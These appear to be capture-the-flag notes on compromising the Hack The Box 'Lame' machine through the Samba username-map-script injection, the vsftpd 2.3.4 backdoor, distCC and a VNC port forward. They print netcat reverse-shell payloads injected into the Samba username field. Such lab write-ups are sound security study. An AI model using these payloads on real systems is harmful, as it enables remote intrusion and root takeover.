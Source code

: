 # Summary
- User: Samba "username map script" RCE vulnerability allows you to immediately acquire `root`
- Root: see above

# Details
### User
- portscan reveals ports 21, 22, 139, 445, and 3262 are open
- easiest path to `root` is to use the Samba "username map script" RCE exploit to get code execution as `root`
	- Samba version allows for username mapping with a script that is possible to inject commands into
	- can use `smbclient -L lame.htb -U <username>` to inject commands in the username field
	- ```smbclient -L lame.htb -U './=`nc 10.10.14.114 443 -e /bin/bash`'``` doesn't work because the start of the command gets mysteriously capitalized when trying to pass in the option to execute a command on connect (permits raw connections)
	- possible to first connect with `smbclient //lame.htb/tmp` before switching users by using ```logon "./=`nc 10.10.14.114 443 -e /bin/bash`"```
	- https://0xdf.gitlab.io/2020/04/07/htb-lame.html
- port 21 is running `vsftpd 2.3.4` which has a backdoor in it that opens a listener on port 6200 if a username is sent that ends with ":)"
- box is running a firewall that prevents access to the listener on port 6200, so can't use externally
- also possible to get a reverse shell on the box using the `distCC` exploit (CVE-2004-2687)

### Root
- can elevate directly to `root` using the previously mentioned Samba exploit
- alternatively can elevate permissions through the `vsftpd` vulnerability now that the backdoor is reachable
- can also set up remote port forwarding in order to bypass the firewall on the box and access the VNC on port 5900 running as `root`
	- password for VNC is "password", which was also among the passwords retrieved from hashes pulled out of the MySQL instance
	- `ssh -R 10.10.14.114:5900:localhost:5900 -p 9999 portforward@10.10.14.114`
